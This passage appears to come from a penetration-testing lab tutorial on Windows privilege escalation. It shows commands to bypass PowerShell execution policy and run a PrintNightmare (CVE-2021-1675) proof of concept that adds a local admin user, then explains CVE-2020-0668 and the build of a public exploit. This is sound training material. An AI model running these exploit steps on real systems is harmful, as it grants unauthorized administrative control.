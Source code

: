 ##### Checking for Spooler Service

We can quickly check if the Spooler service is running with the following command. If it is not running, we will receive a "path does not exist" error.

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

##### Adding Local Admin with PrintNightmare PowerShell PoC

First start by [bypassing](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/) the execution policy on the target host:

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process
```

Now we can import the PowerShell script and use it to add a new local admin user.

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

If all went to plan, we will have a new local admin user under our control.

```powershell
PS C:\htb> net user hacker
```



#### CVE-2020-0668 Example

[Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/), which exploits an arbitrary file move vulnerability leveraging the Windows Service Tracing. Service Tracing allows users to troubleshoot issues with running services and modules by generating debug information. Its parameters are configurable using the Windows registry. Setting a custom MaxFileSize value that is smaller than the size of the file prompts the file to be renamed with a `.OLD` extension when the service is triggered. This move operation is performed by `NT AUTHORITY\SYSTEM`, and can be abused to move a file of our choosing with the help of mount points and symbolic links.

##### After Building Solution

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```shell-session
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```
